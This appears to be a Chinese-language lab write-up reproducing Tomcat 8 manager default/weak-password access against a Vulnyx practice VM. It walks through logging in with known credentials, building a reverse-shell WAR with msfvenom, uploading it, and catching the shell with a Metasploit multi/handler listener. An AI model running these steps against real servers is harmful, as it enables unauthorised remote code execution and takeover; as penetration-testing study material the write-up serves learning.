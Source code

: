 ## 漏洞原理

tomcat8环境下默认后台密码为tomcat/tomcat

未修改可能会导致未授权访问，或者管理员将密码设置为弱口令



## 影响版本

全版本（前提存在弱口令）



## 环境搭建

vlunyx简单靶机：Deploy

[Proton Drive](https://drive.proton.me/urls/K2MFXVCBYR#6tPKBbXzpqwF)

（但是该靶机提供了账号和密码）

```
tomacat：s3cret
```

![image-20250330153543264](./assets/image-20250330153543264.png)



## 漏洞复现

#### 进入后台登录页面

```
tomcat/s3cret
```

![image-20250330153625656](./assets/image-20250330153625656.png)



登陆后台

![image-20250330153634890](./assets/image-20250330153634890.png)



### msfvenom生成war包

```
msfvenom -p java/jsp_shell_reverse_tcp Lhost=<本机ip> lport=<监听端口> -f war -o <filename.war>
```

![image-20250330153751083](./assets/image-20250330153751083.png)



#### 上传war包

![image-20250330153801804](./assets/image-20250330153801804.png)

![image-20250330153806272](./assets/image-20250330153806272.png)

成功上传



### msfconsole开启监听

```
msfconsole
use exploit/multi/handler
set payload java/jsp_shell_reverse_tcp
set lhost 192.168.1.3
set lport 283
run
```

![image-20250330153820623](./assets/image-20250330153820623.png)



### 触发war包（点击）

![image-20250330153829984](./assets/image-20250330153829984.png)

![image-20250330153833112](./assets/image-20250330153833112.png)

成功弹回shell